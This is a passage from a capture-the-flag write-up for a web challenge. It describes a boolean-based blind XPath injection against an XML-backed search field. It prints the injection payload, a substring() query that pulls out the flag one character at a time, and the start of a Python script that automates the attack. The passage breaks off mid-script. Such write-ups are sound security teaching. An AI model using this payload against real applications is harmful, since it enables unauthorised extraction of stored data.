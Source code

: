 ![](/img/2021_04_24_htb_cyberapocalypse_ctf_writeup/20210424061003.png#center)

Unfortunately I don't have a screenshot of the web-ui but there was an input field that when submitted searches the string against that XML file using XPATH query.

I have never exploited this bug before so with trial and error I managed to create payloads that gave results like boolean-based blind SQLi where I get positive response content if my XPATH payload results in True and empty/negative response content if the payload results in False.

My aproach was to submit a non-existent username to search along with "or" and "and" operators to slip in my conditional payloads:

```sql
rh0x01' or _LEFT_ = _RIGHT_ and '3'='3
```

For example, in the "\_LEFT_" section I can specify to get first character of the flag using:

```sql
substring(/military/district/staff/selfDestructCode,1,1)
```

In the "\_RIGHT_" section I can put all alphabets one by one and if they match we get a positive response content.

Here's the script I wrote to automate this:

```python
import requests, time

proxies = {'http':'http://127.0.0.1:8080','https':'http://127.0.0.1:8080'} # burp


def send_payload(url,payld):

	burp0_headers = {"User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:84.0) Gecko/20100101 Firefox/84.0", "Accept": "*/*", "Accept-Language": "en-US,en;q=0.5", "Accept-Encoding": "gzip, deflate", "Referer": "http://138.68.148.24:30825/", "Content-Type": "application/json", "Origin": "http://138.68.148.24:30825", "Connection": "close"}
	burp0_json={"search": payld}
	resp = requests.post(url, headers=burp0_headers, json=burp0_json).text
	
	if 'XPathEvalError' in resp:
		return False
```